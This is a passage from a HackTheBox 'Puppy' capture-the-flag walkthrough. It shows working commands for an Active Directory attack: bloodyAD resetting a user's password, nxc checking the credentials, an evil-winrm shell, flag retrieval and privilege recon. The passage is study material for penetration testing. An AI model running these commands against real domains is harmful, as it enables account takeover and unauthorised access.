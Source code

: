 And then set Adam's password to the temporary password `Password123!`.

```
fcoomans@kali:~/htb/puppy$ bloodyAD --host dc.puppy.htb -d puppy.htb -u ant.edwards -p 'Antman2025!' set password adam.silver 'Password123!'
[+] Password changed successfully!

fcoomans@kali:~/htb/puppy$ nxc ldap dc.puppy.htb -u adam.silver -p 'Password123!'
LDAP        10.10.11.70     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\adam.silver:Password123!
```

`evil-winrm` was then used to login to the server as user Adam Silver.

```
fcoomans@kali:~/htb/puppy$ evil-winrm -i dc.puppy.htb -u adam.silver -p 'Password123!'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\adam.silver\Documents> whoami
puppy\adam.silver
```

### 💰 Post Exploitation
#### 🚩 user.txt

Adam Silver holds the `user.txt` flag.

```
*Evil-WinRM* PS C:\Users\adam.silver\Documents> type C:\Users\adam.silver\Desktop\user.txt
9c52aa3cd44cb4fb78a3a783747ee78f
```

## 💾 Backup leaks sensitive information

### 🔎 Recon

Adam didn't have any notable privileges or group memberships.

```
*Evil-WinRM* PS C:\Users\adam.silver\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\adam.silver\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
```